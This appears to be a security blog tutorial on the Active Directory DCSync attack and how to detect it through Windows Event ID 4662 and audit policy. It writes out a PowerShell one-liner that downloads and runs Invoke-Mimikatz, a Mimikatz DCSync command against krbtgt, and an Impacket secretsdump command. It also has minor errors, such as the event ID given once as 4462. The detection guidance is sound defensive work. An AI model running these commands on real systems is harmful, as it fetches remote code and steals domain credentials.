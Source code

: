 ```yaml
---
author:
- David Johnson
index: 'Windows!Servers!DCSync'
setupfile: '\"../org-html-themes/org/theme-readtheorg-local-1.setup\"'
tag: DCSync
title: DCSync
---
```


DCSync is a powerful tool in the hands of a red teamer and a nightmare
for Blue teamers. For the blue teamer all is not lost. This type of
attack may not be feasible to stop but it can be detected.

Abstract
========

Here I will show how you can quickly and easily get detections in place
DCSync. I begging with a brief overview of DCSync and a quick guide on
how to use it to get credentials. I then cover how to detect this type
of attack and why I chose the rout I did. Finally I provide references
for further review if more information is desired.

DCSync {#dcsync-1}
======

Description
-----------

DCSync works by requesting account password data from a Domain
Controller[^1]. It can also ask Domain Controllers to replicate
information using the Directory Replication Service Remote Protocol[^2].
All this can be done without running any code on a Domain Controller
unlike some of the other ways Mimikatz extracts password data. Whats
even worse this attack takes advantage of a valid and necessary function
of Active Directory, meaning it cannot be turned off or disabled. This
being said we must rely on detection.

Getting Credentials
-------------------

I split this in to two parts local and remote. As the names suggest each
of these sections will cover how to run DCSync depending on if you want
to run it locally or remote. To follow along all one needs is a Windows
Active Directory Domain Controller. If running DCSync remotely a
separate machine with Impacket installed is needed.

### Local

To run DCSync locally I will use Invoke-Mimikatz[^3].

On the Windows Domain Controller start up powershell and lets download
Invoke-Mimikatz.

``` {.example}
iex (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
```

Once that has finished we can run DCSync with the following command.

``` {.example}
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt /domain:Win2016.local"'
```

For more information[^4].

### Remote

To run DCSync remotely I will use secretsdump.py from Impacket[^5].

On the remote machine open a terminal/console and run the following.
Don\'t forget to replace with a privliged user. Replace with the users
password and replace with the Domain Controllers IPAddress.

``` {.example}
secretsdump.py -just-dc <user>:<password>@<ipaddress>
```

Detection
---------

There are two ways to detect DCSync.

-   Network Monitoring[^6]
    -   DsGeNCChange
-   Event ID [^7] [^8] [^9] [^10]
    -   4462

For most people and environments Network Monitoring may not a realistic
option leaving us with the Event ID. To detect DCSync with Event Id 4662
we want to examine the value of the Properties field and see if it
contains Replicating Directory Changes All,
1131f6ad-9c07-11d1-f79f-00c04fc2dcd2,
9923a32a-3607-11d2-b9be-0000f87a36b2, or
1131f6ac-9c07-11d1-f79f-00c04fc2dcd2 anywhere in it.

``` {.example}
 1  <?xml version="1.0" encoding="utf-8" standalone="yes"?>
 2  <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
 3      <System>
 4          <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" />
 5          <EventID>4662</EventID>
 6          <Version>0</Version>
 7          <Level>0</Level>
 8          <Task>14080</Task>
 9          <Opcode>0</Opcode>
10          <Keywords>0x8020000000000000</Keywords>
11          <TimeCreated SystemTime="2018-06-06T12:01:41.388171400Z" />
12          <EventRecordID>6583</EventRecordID>
13          <Correlation />
14          <Execution ProcessID="472" ThreadID="592" />
15          <Channel>Security</Channel>
16          <Computer>Win2012r2.WIN2012R2.local</Computer>
17          <Security />
18      </System>
19      <EventData>
20          <Data Name="SubjectUserSid">S-1-5-21-1384719796-2249325780-1962070806-1001</Data>
21          <Data Name="SubjectUserName">vagrant</Data>
22          <Data Name="SubjectDomainName">WINDOMAIN</Data>
23          <Data Name="SubjectLogonId">0x38867</Data>
24          <Data Name="ObjectServer">DS</Data>
25          <Data Name="ObjectType">%{19195a5b-6da0-11d0-afd3-00c04fd930c9}</Data>
26          <Data Name="ObjectName">%{e3345764-2df3-459e-adb4-615a23cf4374}</Data>
27          <Data Name="OperationType">Object Access</Data>
28          <Data Name="HandleId">0x0</Data>
29          <Data Name="AccessList">%%7688</Data>
30          <Data Name="AccessMask">0x100</Data>
31          <Data Name="Properties">%%7688 {1131f6ad-9c07-11d1-f79f-00c04fc2dcd2} {19195a5b-6da0-11d0-afd3-00c04fd930c9}</Data>
32          <Data Name="AdditionalInfo">-</Data>
33          <Data Name="AdditionalInfo2" />
34      </EventData>
35  </Event>
```

In the example above we can see the Properties value is **%%7688
{1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}
{19195a5b-6da0-11d0-afd3-00c04fd930c9**. This does contain one of the
strings we are looking for, **1131f6ad-9c07-11d1-f79f-00c04fc2dcd2**,
making this is a positive match.

Not all machines have logging turned on for example Windows server 2016
the GPO will need to be set for loging this event Id. This is done by
opening the Local Group Policy Editor and going to Computer
configurations \> Windows Settings \> Security Settings \> Local
Policies \> Audit Policy. Right clicking on Audit directory service
access and then click on Properties. Check the box for Success and click
Apply.

### Note

On my Windows 2016 server the GPO keeps getting turned off. Searching I
did find two10, 5 posts where people were having issues similar to the
one I am experiencing. Though in these article there was no sufficient
answers.

Footnotes

[^1]: Ad security: Mimikatz DCSync Usage, Exploitation, and Detection

[^2]: Extracting User Password Data with Mimikatz DCSync

[^3]: Invoke-mimikatz

[^4]: harnj0y: mimikatz-and-dcsync-and-extrasids-oh-my

[^5]: security auditing being turned off

[^6]: Ad security: Mimikatz DCSync Usage, Exploitation, and Detection

[^7]: gentilkiwi splunk

[^8]: ultimatewindowssecurity

[^9]: ultimatewindowssecurity2

[^10]: modern-active-directory-attack-scenarios-and-how-to-detect-them
